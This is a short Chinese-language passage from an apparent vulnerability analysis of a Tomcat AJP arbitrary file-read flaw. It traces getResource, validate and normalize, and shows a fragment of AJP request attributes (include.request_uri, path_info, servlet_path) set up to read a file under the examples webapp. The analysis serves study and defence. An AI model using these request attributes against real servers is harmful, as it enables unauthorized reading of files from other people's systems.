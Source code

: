 ![image](img/eb4882392f5c8e11dc9155cce4bda65e.png)

在 **getResource** 当中有个 **validate** ，这个检查往后走会调用 **normalize** 进行目录遍历的检查，之后就是输出读到的内容了。

![image](img/f9895a8db4596a4b00077fbd480c1e84.png)

![image](img/63a1ef7fd6e833ebd764ac6b8b829b7d.png)

由于当前 **AJP** 出不了 **webapps** 目录，但是是可以做到任意目录下读的，比如我需要读 **/example/2.txt** 下的文件，只需要这样配置就好了。

```
Copy to clipboard    {'name':'req_attribute','value':['javax.servlet.include.request_uri','/examples']},
    {'name':'req_attribute','value':['javax.servlet.include.path_info',2.txt]},
    {'name':'req_attribute','value':['javax.servlet.include.servlet_path','/']},
    ]) 
```

![image](img/305ddbfd388cf4622afcb58a90653508.png)
